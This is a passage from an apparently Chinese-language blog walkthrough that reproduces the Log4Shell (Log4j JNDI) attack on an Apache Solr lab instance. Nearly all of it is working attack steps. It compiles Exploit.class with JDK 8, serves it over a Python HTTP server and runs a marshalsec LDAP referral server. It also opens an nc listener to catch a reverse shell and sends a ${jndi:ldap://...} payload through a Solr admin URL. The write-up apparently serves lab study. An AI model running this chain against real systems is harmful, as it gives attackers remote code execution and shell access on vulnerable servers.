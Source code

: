 静态代码块用于类的初始化，在类第一次被加载到JVM时执行一次，不依赖于类的实例化。构造函数会在每次创建类的实例时执行调用。

编译得到Exploit.class文件：

（注意要用JDK1.8编译`Exploit.class`，用JDK17编译会导致无法反弹shell）

```bash
wget https://repo.huaweicloud.com/java/jdk/8u171-b11/jdk-8u171-linux-x64.tar.gz
tar -xzvf jdk-8u171-linux-x64.tar.gz
mv jdk1.8.0_171 /usr/lib/jvm/
update-alternatives --install /usr/bin/java java /usr/lib/jvm/jdk1.8.0_171/bin/java 8
update-alternatives --install /usr/bin/javac javac /usr/lib/jvm/jdk1.8.0_171/bin/javac 8
update-alternatives --config java
update-alternatives --config javac
# 切换java和javac版本
javac -version
# javac 1.8.0_171

javac Exploit.java
```

在`Exploit.class`所在目录建立http服务器：

```bash
python -m http.server 9000
```

搭建LDAP服务器：

```bash
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
mvn clean package -DskipTests
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.56.102:9000/Exploit"
```

打开监听：

```bash
nc -lvvp 8888
```

浏览器访问：`http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://192.168.56.102:1389/Exploit}`

![](/img/2024-08-27-log4shell/8.png)

![](/img/2024-08-27-log4shell/9.png)
